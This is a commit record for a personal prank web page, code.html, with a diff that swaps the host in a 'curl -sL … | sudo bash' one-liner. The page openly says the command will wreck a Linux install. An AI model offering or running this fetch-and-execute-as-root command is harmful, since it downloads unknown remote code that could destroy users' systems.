

Before and after one commit to freaknog/freaknog.github.io, a plain HTML site: page code.html in a window 1280 px wide. Shown: the top 221 px of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update code.html

```diff
--- a/code.html
+++ b/code.html
@@ -25,7 +25,7 @@
   <a href="/index.html">back</a><br><br>
 
   you can run this on linux to absolutely desimate your install<br>
-  <code>curl -sL is.gd/goognog | sudo bash</code><br><br>
+  <code>curl -sL g.evrtdg.com | sudo bash</code><br><br>
   <a onclick="embed(this)" href="#ultrakill">click to run real ultrakill</a><br>
   <a onclick="embed(this)" href="#ralsei">click to summon ralsei</a><br>
 </body>
```
